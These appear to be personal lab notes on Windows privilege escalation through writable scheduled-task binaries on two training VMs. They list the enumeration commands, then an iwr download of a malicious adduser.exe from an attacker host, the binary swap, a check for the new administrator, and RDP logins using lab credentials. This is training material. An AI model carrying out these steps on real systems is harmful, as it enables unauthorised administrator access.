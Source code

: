 ### scheduled tasks VM 1
```
xfreerdp /u:steve /p:securityIsNotAnOption++++++ /v:192.168.234.220 /w:1200 /h:700
```
- As which user account (principal) does this task get executed?
- What triggers are specified for the task?
- What actions are executed when one or more of these triggers are met?

view scheduled tasks
```
Get-ScheduledTask 
```

/fo - specify output format as list, /v - display all properties of a task
```
schtasks /query /fo LIST /v
```

check exe permissions
```
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
```

replace exe binary with our adduser script
```
iwr -uri http://192.168.45.181/adduser.exe -Outfile BackendCacheCleanup.exe
move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
move .\BackendCacheCleanup.exe .\Pictures\
```

task runs every minute, check that dave2 was added
```
net user
net localgroup administrators
```

use rdp to look at daveadmin's desktop
```
xfreerdp /u:dave2 /p:password123! /v:192.168.234.220 /w:1200 /h:700
```

### VM 2
```
xfreerdp /u:moss /p:work6potence6PLASMA6flint7 /v:192.168.234.221 /w:1200 /h:700
```

find tasks by certain user
```
schtasks.exe /query /V /FO CSV | convertfrom-csv | where{$_.'Run as user' -match 'roy'} | select taskname
```

found task path: `C:\Users\moss\Searches\VoiceActivation.exe`

use iwr to download our malicious exe from kali to windows
```
iwr -uri http://192.168.45.181/adduser.exe -Outfile VoiceActivation.exe
move .\Searches\VoiceActivation.exe VoiceActivation.exe.bak
move .\VoiceActivation.exe .\Searches\
xfreerdp /u:dave2 /p:password123! /v:192.168.234.221 /w:1200 /h:700
```
